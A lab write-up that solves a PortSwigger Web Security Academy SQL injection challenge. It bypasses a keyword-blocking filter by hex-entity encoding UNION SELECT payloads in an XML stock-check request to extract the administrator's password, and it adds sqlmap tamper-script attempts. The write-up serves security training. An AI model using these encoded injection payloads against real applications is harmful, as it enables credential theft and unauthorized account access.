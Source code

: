 ```yaml
---
Challenge Name: SQL injection with Filter Bypass via XML Encoding
Category: SQL Injection
Difficulty: Practitioner
Link: [WebSecAcademy Challenge](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
---
```

[![VIDEO WALKTHROUGH](https://img.youtube.com/vi/2iqMm0gMyHk/0.jpg)](https://youtu.be/2iqMm0gMyHk "SQL injection with Filter Bypass via XML Encoding")

## Background
You can perform SQL injection attacks using any controllable input that is processed as a SQL query, e.g. some websites take input in JSON/XML format and use this to query the database.

Different formats may even provide alternative ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms.

Weak implementations often just look for common SQL injection keywords within the request and may be bypassed by simply encoding or escaping characters in the prohibited keywords.

The following example uses an XML escape sequence to encode the `S` character in `SELECT`:
```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```
This will be decoded server-side before being passed to the SQL interpreter.

## Challenge Description
>This [lab](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding) contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

>The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Solution
Modify the POST request to include a `'` and we get an error "Attack detected".
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1'</productId>
	<storeId>1</storeId>
</stockCheck>
```

Similarly, when we input a keyword like `SELECT` or `UNION` we get "Attack detected".
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 UNION</productId>
	<storeId>1</storeId>
</stockCheck>
```

When we try `&#x53;ELECT` there is no error.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 &#x53;ELECT</productId>
	<storeId>1</storeId>
</stockCheck>
```

So we encode `UNION SELECT username FROM users` using the CyberChef encoder.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</productId>
	<storeId>1</storeId>
</stockCheck>
```

Unfortunately, this returns `0` but if we move the payload to the `<storeId>`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
</stockCheck>
```

The request returns a list of users.
```txt
carlos
administrator
382 units
wiener
```

Switch the parameter to password, e.g. `UNION SELECT password FROM users`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;</storeId>
</stockCheck>
```

This is fine but good practice (imagine we have thousands of users) to use `WHERE` clause to filter by username, e.g. `UNION SELECT password FROM users WHERE username = 'administrator'`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x57;&#x48;&#x45;&#x52;&#x45;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x3d;&#x20;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;</storeId>
</stockCheck>
```

Recover credentials so now we can login with `administrator:<REDACTED>`.

### Bonus - SQLMap Tamper Scripts
Now for the SQLMap approach. First, list the `-h` and `-hh` then show how we can list the potential `tamper` scripts with `sqlmap --list-tampers`:
```txt
* decentities.py - HTML encode in decimal (using code points) all characters (e.g. ' -> &#39;)
* hexentities.py - HTML encode in hexadecimal (using code points) all characters (e.g. ' -> &#x31;)
* htmlencode.py - HTML encode (using code points) all non-alphanumeric characters (e.g. ' -> &#39;)
```

Unfortunately, none of these worked - was expecting `hexentities.py` to work for sure. Increase verbosity to identify the issues.
```bash
sqlmap -r new.req --batch --tamper=hexentities -v 6
```

See the ouput `"This lab is not accessible over HTTP"` so we need HTTPS.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl
```

Still not working, might be better to debug by proxying through burp.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl --proxy=http://127.0.0.1:8080
```

OK, so payload looks like.
```
&amp;#x31;&amp;#x20;&amp;#x4f;&amp;#x52;&amp;#x44;&amp;#x45;&amp;#x52;&amp;#x20;&amp;#x42;&amp;#x59;&amp;#x20;&amp;#x39;&amp;#x37;&amp;#x32;&amp;#x32;&amp;#x2d;&amp;#x2d;&amp;#x20;&amp;#x49;&amp;#x76;&amp;#x53;&amp;#x42;
```

But we don't want the `&amp;` - checked `-hh` and found  `--skip-urlencode`.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl --proxy=http://127.0.0.1:8080 --skip-urlencode
```

This doesn't work and either does `--no-escape` - I tried to manually adjust the SQLMap code in both `convert.py` and `hexentities.py` but actually the payload looks ok when checking verbose mode.
```txt
[PAYLOAD] &#x35;&#x36;&#x32;&#x30;
```
It's only in the actual HTTP request POST data where we see.
```txt
&amp;#x35;&amp;#x36;&amp;#x32;&amp;#x30;
```

I didn't find a working solution for SQLMap, if you know how to prevent the encoding of `&amp;` leave a message on the [YT video](https://www.youtube.com/watch?v=2iqMm0gMyHk) or DM me on [Twitter](https://twitter.com/_CryptoCat) 🙂

## Resources
- [CyberChef: Convert ASCII chars to HTML entities](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(true,'Hex%20entities')&input=VEVTVA)
- [Intigriti SQLi thread](https://twitter.com/intigriti/status/1612444237106126850)